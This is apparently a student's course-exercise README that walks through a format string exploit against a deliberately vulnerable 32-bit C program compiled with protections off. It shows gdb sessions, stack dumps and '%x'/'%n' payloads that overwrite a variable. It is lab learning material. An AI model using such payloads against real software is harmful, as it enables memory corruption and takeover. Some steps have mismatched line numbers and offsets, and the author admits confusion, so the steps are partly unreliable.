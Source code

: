 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or (Im not sure this worked for me, this doesn't work for me now so better to use the above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 7
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x $esp
```
Should return: ![Alt text](image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. **Try and fail**
    Start the new debugging of the program so you are not stopped by the break (there must be a way to remove the break ;)) (Use 'q' to quit and then start from fresh)
    `gdb vuln`
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](image-8.png)

   Note: I just rerun that and my working command looked like this:
```
   run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
```
 and the distance calculation was 141 so I guess it is always slightly different but close enough

![image](https://github.com/osuzuki/sec_engineering_exercises/assets/8805399/ef7206d2-c61b-4c37-b1ac-513b8251635c)

   
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly 
```
(gdb)      run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
Starting program: /home/olg4/learning/week22/vuln `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
AAAABB4020e000.0.4006920b.4020e3fc.0.bffff378.80484e7.bffff580.bffff424.bffff430.8048521.4000f9d0.bffff390.0.40051e91.4020e000.4020e000.0.40051e91.2.bffff424.bffff430.bffff3b4.1.0.4020e000.4000f77a.40027000.0.4020e000.0.0.851c2a68.70c7ad97.0.0.0.2.8048370.0.40014dc0.4000f9d0.804a000.2.8048370.0.80483a2.80484c3.2.bffff424.8048500.8048560.4000f9d0.bffff41c.40027940.2.bffff560.bffff580.0.bffff736.bffff749.bffffd35.bffffd69.bffffd8b.bffffd9a.bffffda7.bffffdc2.bffffe0d.bffffe20.bffffe2a.bffffe49.bffffe52.bffffe62.bffffe84.bffffec5.bffffed8.bffffee4.bffffef8.bfffff0c.bfffff1c.bfffff24.bfffff31.bfffff50.bfffffb8.0.20.4002bb50.21.4002b000.10.1f8bfbff.6.1000.11.64.3.8048034.4.20.5.9.7.40000000.8.0.9.8048370.b.81c.c.81c.d.7d0.e.7d0.17.0.19.bffff54b.1a.0.1f.bfffffd8.f.bffff55b.0.0.0.0.d000000.859f2e13.458bbd7d.1365d6c3.69e5b851.363836.6d6f682f.6c6f2f65.6c2f3467.6e726165.2f676e69.6b656577.762f3232.6e6c75.41414141
```

12. Find the address of the 'target' variable 
- To find the target variable type:
  ```
  p &target
  ```
- The output should be:![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun): in my case it is `AAAA`->`"\x28\xa0\x04\x08"`
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Output:![Alt text](image-9.png)
14. Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)


##Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works



